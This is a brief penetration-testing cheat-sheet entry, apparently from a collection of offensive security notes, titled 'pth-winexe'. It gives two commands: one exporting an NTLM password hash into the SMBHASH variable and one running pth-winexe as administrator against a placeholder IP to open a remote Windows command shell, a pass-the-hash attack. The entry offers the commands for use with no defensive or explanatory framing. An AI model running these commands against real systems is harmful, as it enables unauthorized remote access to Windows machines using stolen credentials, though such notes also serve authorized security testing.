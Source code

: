 ## pth-winexe

`export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896`

`pth-winexe -U administrator% //<IP> cmd`

